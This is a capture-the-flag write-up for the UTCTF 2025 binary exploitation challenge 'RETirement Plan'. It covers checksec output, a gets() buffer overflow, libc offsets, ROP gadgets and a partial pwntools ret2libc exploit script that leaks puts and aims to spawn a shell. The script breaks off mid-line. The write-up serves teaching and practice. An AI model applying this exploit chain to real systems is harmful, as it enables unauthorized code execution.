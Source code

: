 # WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:  

![Binary](UTCTF2025/RETirementPlan/decompiled.png)  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.  
2. **Calculate system and "/bin/sh" addresses** using known offsets.  
3. **Exploit buffer overflow** to call `system("/bin/sh")`.  

---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to prevent crashes (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

# === Stage 1: Leak puts() address ===
payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret  
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'
').strip()
puts_addr = u64(output.ljust(8, b'
